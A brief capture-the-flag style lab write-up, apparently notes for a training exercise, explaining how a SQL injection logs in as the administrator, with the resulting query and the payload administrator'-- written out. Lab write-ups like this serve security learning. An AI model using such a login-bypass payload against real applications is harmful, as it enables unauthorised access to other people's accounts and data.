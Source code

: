 # SQL Injection - Bypassing login functionallity
 This lab contains a SQL injection vulnerability in the login function.

## Challenge
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Target:
Log into as the administrator using SQL Injection

## QUERY:
''' sql
SELECT * FROM users WHERE username='administrator'-- AND password='whateverpassword'
'''

In this instance, the payload is administrator'--
